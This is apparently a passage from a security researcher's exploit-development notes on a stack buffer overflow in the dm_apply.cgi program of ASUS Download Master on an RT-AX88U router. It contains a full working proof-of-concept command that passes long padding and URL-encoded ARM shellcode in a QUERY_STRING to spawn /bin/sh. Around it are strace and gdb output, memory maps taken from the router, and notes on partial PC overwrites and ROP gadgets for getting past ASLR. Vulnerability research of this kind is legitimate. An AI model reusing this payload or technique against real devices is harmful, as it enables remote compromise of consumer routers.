1870 close(-1) = -1 errno=9 (Bad file descriptor)
1870 close(-1) = -1 errno=9 (Bad file descriptor)
1870 open("/Download2/.logs/dm.jqs",O_RDONLY) = -1 errno=2 (No such file or directory)
1870 write(1,0xff7d2864,6)UNKNOW = 6
1870 creat("/root/pwned",0777) = 3
1870 exit(0)
tester@asuserlin-ubuntu20:~/download_manager/asusware.arm$ ls root/
pwned
```



### /bin/sh PoC via qemu

```
sudo chroot . ./qemu-arm-static -strace -E QUERY_STRING='action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%10%DF%FE%FF%54%80%8F%E2%58%40%A0%E3%1C%60%8F%E2%01%0C%54%E3%16%FF%2F%81%58%40%44%E2%04%50%D8%E7%05%50%25%E2%04%50%C8%E7%59%40%84%E2%F7%FF%FF%EA%24%60%8F%E2%FF%5F%0F%E3%03%50%85%E2%B0%50%C6%E1%07%70%27%E0%80%40%2D%E9%01%70%47%E2%04%70%2D%E5%01%70%87%E2%04%70%2D%E5%07%40%BD%E8%41%41%9F%4F%6D%75%05%E6%44%74%41%E6%01%75%28%E0%2A%7A%07%E6%2A%76%42%E6%01%75%28%E0%2A%77%03%E6%6C%7B%43%E6%01%75%28%E0%08%05%A5%E4%76%7D%03%E6%01%75%28%E0%09%C5%29%E5%01%C5%28%E0%01%15%A5%E6%08%15%84%E5%04%C5%A5%E4%01%C5%28%E0%08%15%A5%E4%07%25%27%E5%0E%75%A5%E6%05%05%05%EA&task_id=&download_type=OTHER' etc/downloadmaster/downloadmaster/dm_apply.cgi
[...]
14122 close(-1) = -1 errno=9 (Bad file descriptor)
14122 close(-1) = -1 errno=9 (Bad file descriptor)
14122 open("/Download2/.logs/dm.jqs",O_RDONLY) = -1 errno=2 (No such file or directory)
14122 write(1,0xff7d2864,6)UNKNOW = 6
14122 execve("/bin///sh",{"sh",NULL})/ # id
/bin///sh: id: not found
/ # Killed
```


Woot

I also wrote it so that the payload can sit BEFORE the initial PC overwrite, as that might start / end with a null

Good idea:

Partial overwrite of PC = `A*2332 + \x42\x42` = ` ► f 0 0xff004242` = Partial PC Overwrite = ASLR bypass?

BALLLLLLLLLLLLLLLLLSSSSSSSSSSSSSSSSSS, getting frustrated, so the partial overwrite WORKS, but a null is appended (by *something?*) at the end of the payload, so a partial overwrite of `0x4242` results in `0xFF004242`:
```
(gdb) c
Continuing.

Thread 19.1 "dm_apply.cgi" received signal SIGILL, Illegal instruction.
0xf7004242 in ?? ()
```

A SINGLE BYTE overwrite results in `0xf7250042`:
```
(gdb) c
Continuing.

Thread 12.1 "dm_apply.cgi" received signal SIGILL, Illegal instruction.
0xf7250042 in accept4 () from /opt/lib/libc.so.1
(gdb)
Continuing.

Program terminated with signal SIGILL, Illegal instruction.
The program no longer exists.
```

what in the fuck

I'm not sure I can take advantage of this. I need to dynamically determine where I am in memory *somehow*, but I can only do it in one request. Each request spawns a new CGI, so the memory layouts change... I think

*Begins search for an info leak*


Even with a partial bypass we need to try to land somewhere COOL. On the actual router during when the payload hijacks PC and "crashes", the memory maps look like this:
```
admin@RT-AX88U-C100:/tmp/home/root# cat /proc/20661/maps
00010000-00028000 r-xp 00000000 08:01 6758057                            /tmp/mnt/USB/asusware.arm/etc/downloadmaster/downloadmaster/dm_apply.cgi
00038000-00039000 rw-p 00018000 08:01 6758057                            /tmp/mnt/USB/asusware.arm/etc/downloadmaster/downloadmaster/dm_apply.cgi
00039000-0003f000 rw-p 00000000 00:00 0
00635000-00658000 rw-p 00000000 00:00 0                                  [heap]
f7419000-f74a6000 r-xp 00000000 08:01 6735435                            /tmp/mnt/USB/asusware.arm/lib/libuClibc-1.0.15.so
f74a6000-f74b6000 ---p 00000000 00:00 0
f74b6000-f74b7000 r--p 0008d000 08:01 6735435                            /tmp/mnt/USB/asusware.arm/lib/libuClibc-1.0.15.so
f74b7000-f74b8000 rw-p 0008e000 08:01 6735435                            /tmp/mnt/USB/asusware.arm/lib/libuClibc-1.0.15.so
f74b8000-f74bc000 rw-p 00000000 00:00 0
f74bc000-f74c2000 r-xp 00000000 08:01 6735417                            /tmp/mnt/USB/asusware.arm/lib/ld-uClibc-1.0.15.so
f74cf000-f74d1000 rw-p 00000000 00:00 0
f74d1000-f74d2000 r--p 00005000 08:01 6735417                            /tmp/mnt/USB/asusware.arm/lib/ld-uClibc-1.0.15.so
f74d2000-f74d3000 rw-p 00006000 08:01 6735417                            /tmp/mnt/USB/asusware.arm/lib/ld-uClibc-1.0.15.so
ffc29000-ffc4b000 rw-p 00000000 00:00 0                                  [stack]
ffff0000-ffff1000 r-xp 00000000 00:00 0                                  [vectors]
admin@RT-AX88U-C100:/tmp/home/root#
```



GDB @ time of crash:
```
(gdb) c
Continuing.

Thread 19.1 "dm_apply.cgi" received signal SIGILL, Illegal instruction.
0xf7004242 in ?? ()
```
`0xf7004242` is ALMOST within libc

So there's actually WAY fewer libraries to work with in terms of ROP, but that might be good. 


Now we need to determine where we are in memory, but we can't hardcode any memory addresses due to the ephemeral nature of the process and the fact that it will probably change. Running ropper against a few of the libraries, namely `libuClibc-1.0.15.so` and `dm_apply.cgi` gives us some options, but no easy wins like we'd maybe see in i386, like `jmp esp`, lol. 

asus_lighttpd sits at a constant 0x0000xxxx so if we can find a useable gadget within it to use for 
`0x0001b240: push {r0, r1, r2, lr}; strb r3, [sp, #4]; mov r3, sp; bl #0x1b0f0; add sp, sp, #0xc; pop {pc}; ``